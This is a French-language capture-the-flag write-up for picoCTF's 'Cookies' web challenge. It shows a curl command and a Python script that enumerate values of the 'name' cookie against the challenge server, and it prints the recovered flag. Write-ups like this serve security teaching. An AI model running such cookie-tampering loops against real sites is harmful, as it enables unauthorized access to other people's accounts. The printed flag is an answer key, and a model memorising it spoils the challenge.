


# Cookies

## 0x1 Description

>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/

## 0x2 Analyse

Encore une fois, la description est très explicite, nous allons devoir jouer avec les cookies et il y en aura surement un meilleur que les autres

Après avoir entré le nom du premier biscuit qu'ils nous propose, nous avons la structure du cookie qui nous est donnée:



Pas besoin d'être un génie pour comprendre qu'il va falloir incrémenter la valeur contenue dans **name**

## 0x3 Résolution avec cURL

Le principe est de faire une petite boucle qui va incrémenter la valeur et appeler la vérification avec cette donnée.

Ce qui donne après quelques itérations le résultat suivant:

>curl --cookie "name=18" http://mercury.picoctf.net:17781/check
>
>flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## 0x4 Vérification avec Cookie Quick Manager

Avec n'importe quel éditeur de cookie, vous pouvez le modifier et une fois la page rechargée voir apparaitre la solution:



## 0x5 Résolution avec un script en python

Comme expliqué , nous allons faire une boucle qui testera toutes les possibilité de cookie, pour ce faire, voici le code que j'ai écrit:

```python
#!/usr/bin/env python

import pwn
import requests
import re

regex = "picoCTF{.*?}"
url = "http://mercury.picoctf.net:17781/check"
s = requests.Session()
boucle = True

def Exploit():
    pwn.info("Searching for the flag")
    while boucle:
        for miaou in range (0,100):
            if miaou % 5 == 0:
                if miaou > 0:
                    pwn.info("{} iterations".format(miaou))
                else:
                    pwn.info("{} iteration".format(miaou))
            cookies = {'name': str(miaou)}
            req = s.get(url, cookies=cookies)
            req = req.content
            result = re.findall(regex, str(req))
            flag = result
            if result:
                for f in flag:
                    pwn.warn("After {} iterations".format(miaou))
                    pwn.warn("Cookie was: {}".format(cookies))
                    pwn.success("Flag is: {}".format(f))
                    break
                return
Exploit()
```
